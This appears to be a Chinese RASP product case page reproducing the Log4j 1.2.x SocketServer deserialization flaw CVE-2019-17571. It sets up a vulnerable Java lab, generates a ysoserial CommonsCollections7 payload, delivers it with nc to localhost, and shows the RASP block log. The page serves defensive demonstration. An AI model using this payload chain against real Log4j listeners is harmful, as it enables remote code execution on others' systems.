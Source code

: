# CVE-2019-17571

## 漏洞简介

Apache Log4j 是一个基于 Java 的日志记录工具，是 Apache 软件基金会的一个项目，是几种 Java 日志框架之一。
近日，Apache Log4j 官方披露在 1.2.x 版本中的SocketServer类存在反序列化漏洞（CVE-2019-17571），攻击者可利用漏洞可实现远程代码执行。
Log4j 1.2.x 版本中的 org.apache.log4j.net.SocketServer 类，存在反序列化漏洞。使用 Log4j SocketServer 类创建的 Socket 监听服务处理接受数据时，容易对不可信数据进行反序列化，结合反序列化小工具，攻击者可以实现远程代码执行。

##  影响版本


##  漏洞环境

+ idea新建一个项目，如下图所示：

![img.png](../.vuepress/public/images/case/CVE-2019-17571/img.png)

+ log4j.java

```java
import org.apache.log4j.net.SimpleSocketServer;

public class log4j {
    public static void main(String[] args) {
        System.out.println("Listening on port 1234");
        String[] arguments = {"1234", (new log4j()).getClass().getClassLoader().getResource("log4j.properties").getPath()};
        SimpleSocketServer.main(arguments);
        System.out.println("Log4j output successfuly.");
    }
}
```

+ log4j.properties
```shell
log4j.rootCategory=DEBUG,stdout
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.threshold=DEBUG
log4j.appender.stdout.layout.ConversionPattern=[%d{yyy-MM-dd HH:mm:ss,SSS}]-[%p]-[MSG!:%m]-[%c\:%L]%n
```

+ pom.xml
```shell
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>CVE-2019-17571</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>log4j</groupId>
            <artifactId>log4j</artifactId>
            <version>1.2.17</version>
        </dependency>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

+ 使用ysoserial生产payload:

```shell
java -jar ysoserial-master-8eb5cbfbf6-1.jar  CommonsCollections7 "open /System/Applications/Calculator.app" > log4j.bin
```

+ 运行 log4j.Main


+ nc localhost 1234 < log4j.bin


+ 运行结果

![img_1.png](../.vuepress/public/images/case/CVE-2019-17571/img_1.png)

##  RASP防御
启动RASP，再次发起攻击，计算机没有被打开

RASP拦截的日志
```shell
{
    "cmdArray":[
        "open",
        "/System/Applications/Calculator.app"
    ],
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)",
        "org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)",
        "org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)",
        "java.util.AbstractMap.equals(AbstractMap.java:495)",
        "org.apache.commons.collections.map.AbstractMapDecorator.equals(AbstractMapDecorator.java:129)",
        "java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)",
        "java.util.Hashtable.readObject(Hashtable.java:1215)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1185)",
        "java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2256)",
        "java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2147)",
        "java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1646)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:482)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:440)",
        "org.apache.log4j.net.SocketNode.run(SocketNode.java:82)",
        "java.lang.Thread.run(Thread.java:748)"
    ]
}
```

请求耗时：

2021-09-16 09:40:51 INFO  method: ProcessImpl.start.before, 耗时: 0.483677 ms
